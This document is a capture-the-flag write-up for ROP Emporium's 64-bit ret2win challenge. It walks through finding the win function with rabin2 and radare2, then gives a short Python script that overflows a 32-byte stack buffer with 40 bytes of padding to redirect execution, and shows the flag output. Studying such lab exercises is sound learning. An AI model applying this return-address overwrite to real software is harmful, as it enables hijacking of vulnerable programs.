

#ROP Emporium - 64bit - ret2win
https://ropemporium.com/challenge/ret2win.html

Challenge Description
Description for ret2win on ropemporium:
Locate a method within the binary that you want to call and do so by overwriting a saved return address on the stack.
Our goal is to find a function to return that lets us win/read the flag.
1) Browse ret2win's functions
Read the user defined functions in the ret2win binary using rabin2.
root@city64:~/ctf/ropemporium/1-ret2win# rabin2 -qs ret2win | grep -ve imp -e ' 0 '
0x00601088 1 completed.7585
0x004007b5 92 pwnme
0x00400811 32 ret2win
0x004008b0 2 __libc_csu_fini
0x00601060 8 stdout@@GLIBC_2.2.5
0x00601070 8 stdin@@GLIBC_2.2.5
0x004008c0 4 _IO_stdin_used
0x00400840 101 __libc_csu_init
0x00400650 42 _start
0x00400746 111 main
0x00601080 8 stderr@@GLIBC_2.2.5
The ret2win function looks interesting.
Disassemble the function into assembly and have read of it using radare2.
root@city64:~/ctf/ropemporium/1-ret2win# r2 ret2win
[0x00400650]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[0x00400650]> pdf@sym.ret2win
/ (fcn) sym.ret2win 32
| sym.ret2win ();
| 0x00400811 55 push rbp
| 0x00400812 4889e5 mov rbp, rsp
| 0x00400815 bfe0094000 mov edi, str.Thank_you__Here_s_your_flag: ; 0x4009e0 ; "Thank you! Here's your flag:"
| 0x0040081a b800000000 mov eax, 0
| 0x0040081f e8ccfdffff call sym.imp.printf ; int printf(const char *format)
| 0x00400824 bffd094000 mov edi, str.bin_cat_flag.txt ; 0x4009fd ; "/bin/cat flag.txt"
| 0x00400829 e8b2fdffff call sym.imp.system ; int system(const char *string)
| 0x0040082e 90 nop
| 0x0040082f 5d pop rbp
\ 0x00400830 c3 ret
As you can tell from the strings, ret2win says “Thank you!� and runs system("/bin/cat flag.txt"), which prints the flag for us.
In order to win, we should return to this ret2win function.
We overflow the buffer and overwrite RIP with the address of the ret2win function - 0x00400811.
2) Write exploit script
Here is my python script to generate the payload.
The offset to RIP is 40 bytes (this is given in the challenge description under ‘Double Check’), and following that we write the address of our ret2win function.
import struct
ret2win_func = struct.pack('<Q', 0x00400811)
payload = "A"*40
payload += ret2win_func
print payload
3) Win
Run your exploit script and pipe your payload to the binary.
system("/bin/cat flag.txt") will run and the flag will be printed out.
root@city64:~/ctf/ropemporium/1-ret2win# python ret2winpwn.py | ./ret2win
ret2win by ROP Emporium
64bits
For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!
> Thank you! Here's your flag:ROPE{a_placeholder_32byte_flag!}
Segmentation fault